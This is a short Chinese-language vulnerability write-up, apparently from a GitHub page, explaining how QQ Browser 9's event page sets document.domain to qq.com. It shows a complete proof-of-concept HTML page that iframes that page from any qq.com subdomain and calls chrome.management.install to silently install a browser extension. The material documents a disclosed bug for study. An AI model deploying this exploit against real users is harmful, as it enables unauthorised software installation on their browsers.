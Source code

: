 ## document.domain的妙用

在[QQ浏览器9本地文件读取&远程命令执行](http://wooyun.org/bugs/wooyun-2010-0176314)里用到了一个关于`documnet.domain`的小技巧。

页面 http://event.browser.qq.com/stdl/miyue/index.html 里前端存在代码 [header.js](http://stdl.qq.com/stdl/tq_center/activity/common/header.js) 设置了其domain为`qq.com`。这意味着，如果`qq.com`的任意一个子域名通过iframe加载上述的页面，只要也设置了相同的domain，就能够访问到event.brrowser上的window对象。

```javascript
try {
	document.domain = 'qq.com';
} catch(e) {
}
```

### 例子

案例中用的是XSS，本地测试可以修改一下`hosts`文件，加一个qq的子域名，比如`127.0.0.1 test.qq.com`，然后用QQ浏览器访问下面这个页面，就可以看到QQ浏览器被安装了指定的扩展。

http://test.qq.com/index.html

```html
<html>
<body>
</body>
<script>
document.domain = 'qq.com';
var f = document.createElement("iframe");
f.src = 'http://event.browser.qq.com/stdl/miyue/index.html';

f.onload = function() {
  f.contentWindow.chrome.management.install({
    id: "llilejmacjghpgeenjonaggofdjobdhb",
    crx_url: "https://pcbrowser.dd.qq.com/pcbrowserbig/qbextension/qb_crx/85a4b89505532a5ec92faf546bbcda81.crx"
  }, function() {
    console.log(arguments)
  });
}
document.body.appendChild(f);
</script>
</html>
```
